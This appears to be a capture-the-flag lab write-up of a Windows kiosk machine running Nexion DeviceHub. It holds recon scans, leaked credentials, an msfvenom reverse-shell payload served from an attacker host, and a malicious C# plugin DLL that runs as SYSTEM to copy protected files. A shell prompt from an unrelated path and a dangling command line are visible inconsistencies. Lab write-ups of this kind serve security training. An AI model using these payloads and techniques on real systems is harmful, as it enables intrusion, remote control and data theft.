➜  Touch nmap -A 10.129.80.171
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-05 08:34 +0400

Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Service
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-cors: GET POST PUT OPTIONS
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Nexion DeviceHub - Login
|_Requested resource was /login


I checked the port 8443 and saw this login page:



I tried to log in with the credentials on the description on this lab but they didn't work. So, I decided to look at the source code.

```<div class="login-hint" title="The default password is the device serial number included in your DeviceHub packaging.">```

I couldn't define it so made a ffuf fuzzing scan.

```➜  Touch ffuf -u 'http://10.129.80.171:8443/FUZZ' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-small.txt -e .php,.exe,.txt -ic -fs 0

________________________________________________

login                   [Status: 200, Size: 3572, Words: 122, Lines: 3, Duration: 78ms]
api                     [Status: 403, Size: 35, Words: 2, Lines: 1, Duration: 79ms]```


"http://10.129.80.171:8443/api/status"
When I opened this URL, I noticed that it is authenticated so we cannot directly access that page without proper credentials.



That is why I decided to make another ffuf scan to define unauthenticated endpoints.

```➜  Touch ffuf -u 'http://10.129.80.171:8443/api/FUZZ' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-small.txt -e .php,.exe,.txt -ic -fs 0

________________________________________________

status                  [Status: 200, Size: 116, Words: 3, Lines: 1, Duration: 78ms]
scan                    [Status: 405, Size: 30, Words: 3, Lines: 1, Duration: 81ms]```

Open this URL: "http://10.129.80.171:8443/api/status"
We got the serial number from there.



```{"device":"Nexion DeviceHub DH-100","serial":"NX-DH-2024-B7042","firmware":"1.4.2","status":"online","uptime":42974}```


Add this serial number to password field and log in.
While discovering this scanning web site, I have defined username and password:



```KioskUser : K!0sk2026#```

I used these credentials for RDP log in



But when we reach to "Documents" stage, the Scanner blocks us to go next step. It scans password and we need to block it.



On the web site itself, there is a power off button. I will use it for powering this scanner off.



Click on that button and when you try to scan on rdp, it will give an error.

There will be an URL like this: "https://support.nexionsystems.com"
Click on it.



When I opened the web site, I thought about this: maybe I can create a reverse shell .exe file with msfvenom, open a python server, and download this file on the edge browser. I did it.

```➜  Touch msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.241 LPORT=4444 -f exe -o shell_v2.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: shell_v2.exe
➜  Touch python3 -m http.server 80                                                                     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.80.171 - - [05/Oct/2026 09:41:00] "GET /shell_v2.exe HTTP/1.1" 200 ```

On Edge browser open that URL: ```http://10.10.15.241/shell_v2.exe```

Click on "CTRL+J" and the Downloads section will be opened on the browser.



I clicked on it but it didn't run. Maybe there is a firewall or something like this. I saw that I can access to the PC storage C: disk. So, write it into the URL: C:\Windows\System32\cmd.exe



We will get cmd shell from there. Let's take the user.txt



But I wanna work on my own kali. So, I remembered that I have uploaded the shell_v2.exe file to this windows. So, open a listener on my kali, execute this file on windows and get shell if possible.



➜  Touch rlwrap nc -nvlp 4444                                                                          
listening on [any] 4444 ...
connect to [10.10.15.241] from (UNKNOWN) [10.129.80.171] 62913
Microsoft Windows [Version 10.0.26100.9457]
(c) Microsoft Corporation. All rights reserved.

C:\Users\KioskUser\Downloads>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\KioskUser\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9B34-EFD9

 Directory of C:\Users\KioskUser\Downloads

10/05/2026  05:58 AM    <DIR>          .
09/10/2026  11:36 AM    <DIR>          ..
10/05/2026  05:40 AM             7,680 shell_v2.exe
               1 File(s)          7,680 bytes
               2 Dir(s)   8,643,846,144 bytes free

C:\Users\KioskUser\Downloads>

I got it. 


When I runned this command "whoami /all" to see which privileges I have, I noticed that I amd the member of "Printer Administrators" group which can help me to priv esc.

PS C:\MySQL\data\htb_airways> whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID                                           
=================== ==============================================
kiosk-042\kioskuser S-1-5-21-2554513647-1216688035-3073314765-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                            Attributes                                        
====================================== ================ ============================================== ==================================================
Everyone                               Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
KIOSK-042\Printer Administrators       Alias            S-1-5-21-2554513647-1216688035-3073314765-1003 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

PS C:\MySQL\data\htb_airways> 


I made some enumeration on the system.
We identified that the Nexion DeviceHub application automatically loads and executes .dll files placed inside its plugins folder (C:\Program Files\Nexion Systems\Printer\publish\plugins). Because the application runs as NT AUTHORITY\SYSTEM, any code loaded by its plugins inherits those high privileges.

Normally, standard users (like KioskUser) cannot modify files inside C:\Program Files\Nexion Systems\... because it is a protected system folder. However, membership in the Printer Administrators group (or related local privileges) allowed us to bypass these restrictions, write our custom payload.dll directly into the application's plugins folder, and clean up old files.

We wrote a C# script (payload.cs) with a static constructor and initialization methods. This ensures that the moment the application loads the DLL, the code executes automatically without requiring manual interaction.

Inside the script, we added commands to search for the restricted root.txt file (C:\Users\Administrator\root.txt), which a standard user cannot read, and copy its contents to an accessible path (C:\ProgramData\Nexion\rr.txt).

We used PowerShell's Add-Type tool to compile the C# script into a compatible .NET DLL file (payload.dll) and copied it directly into the application's plugins directory.

When the service restarted or loaded the directory, it executed our compiled plugin with SYSTEM privileges, successfully bypassing file permissions and saving the root flag to rr.txt.

Let's show it:

execute this command on your kali.

```cat > payload.cs <<'EOF'
using System;
using System.IO;

public class PluginInit
{
    public static void Initialize() { Run(); }
    public static void Init() { Run(); }
    public static void Load() { Run(); }
    public static void OnLoad() { Run(); }
    static PluginInit() { Run(); }

    public static void Run()
    {
        try
        {
            foreach (var f in new string[] {
                @"C:\Users\Administrator\Desktop\root.txt",
                @"C:\Users\Administrator\root.txt",
                @"C:\root.txt" })
            {
                if (File.Exists(f))
                {
                    File.Copy(f, @"C:\ProgramData\Nexion\rr.txt", true);
                    break;
                }
            }
        }
        catch { }
    }
}
EOF```

Open a listener:

python3 -m http.server 80


On powershell execute these commands:

# download the cs file to there form my kali
curl "http://10.10.15.241/payload.cs" -o "C:\Users\KioskUser\Downloads\payload.cs"

# Convert it into dll
Add-Type -Path "C:\Users\KioskUser\Downloads\payload.cs" `
  -OutputAssembly "C:\Users\KioskUser\Downloads\payload.dll" `
  -OutputType Library

# Copy it into the program files, so the printer will load it after reseting.

Copy-Item "C:\Users\KioskUser\Downloads\payload.dll" `
  "C:\Program Files\Nexion Systems\Printer\publish\plugins\payload.dll" -Force
Copy-Item "C:\Users\KioskUser\Downloads\payload.dll" `

# Go to the web site of that Nexicon Devicehub and reset the printer by clicking the reset button on printer page.

# execute this command to see the root flag.
type C:\ProgramData\Nexion\rr.txt


We could also get reverse shell by adding some commands on cs file. But for finishing the lab, we read the root.txt.


